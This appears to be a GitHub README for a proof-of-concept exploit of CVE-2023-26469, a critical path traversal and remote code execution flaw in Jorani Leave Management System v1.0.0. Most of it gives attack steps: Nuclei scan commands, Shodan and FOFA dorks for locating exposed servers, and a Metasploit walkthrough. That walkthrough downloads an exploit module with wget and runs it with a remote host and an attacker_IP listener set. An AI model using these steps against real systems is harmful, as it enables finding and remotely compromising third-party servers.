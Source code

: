 # CVE-2023-26469
![](https://img.shields.io/static/v1?label=Product&message=Leave%20Management%20System%20Jorani&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.0.0&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Path%20Traversal%20%26%20Remote%20Code%20Execution&color=red)


- [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-26469.yaml)

```
nuclei -target <target> -t CVE-2023-26469.yaml
```
```
nuclei -l <target_file> -t CVE-2023-26469.yaml
```
```
nuclei -uq "http.favicon.hash:-2032163853" -t CVE-2023-26469.yaml -vv
```

 - Shodan dork:
```
http.favicon.hash:1041760462
```
- FOFA dork:
```
icon_hash="1041760462"
```

### Usage

```
exploit.py <url>
```
### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Jorani_RCE/jorani_rce.rb
```
```
cp jorani_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php/jorani_path_trav.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/php/jorani_path_trav.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

